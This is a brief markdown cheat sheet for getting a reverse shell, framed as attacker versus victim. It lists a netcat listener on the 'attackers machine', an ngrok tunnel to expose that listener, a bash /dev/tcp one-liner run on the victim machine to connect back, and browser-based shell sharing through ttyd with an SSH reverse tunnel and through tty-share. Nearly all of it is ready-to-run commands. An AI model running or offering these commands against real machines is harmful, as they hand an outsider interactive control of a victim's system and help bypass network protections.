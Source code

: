 # terminal reverse shell

## open listener port on attackers machine
* `nc -l -p 8000`
* macOS `nc -l localhost 8000`

#### optional - get public address by creating a tcp reverse tunnel
`./ngrok tcp 8000`

## reverse connect from victim machine to attackers machine
`/bin/bash -c '/bin/bash -i >& /dev/tcp/${0/://} 0>&1' localhost:8000`



# browser reverse shell - ttyd
`docker run --rm -p 8080:7681 tsl0922/ttyd`
`ssh -R 80:localhost:8080 nokey@localhost.run`


# browser reverse shell - tty-share
`docker run --rm -it elisescu/tty-share --public`
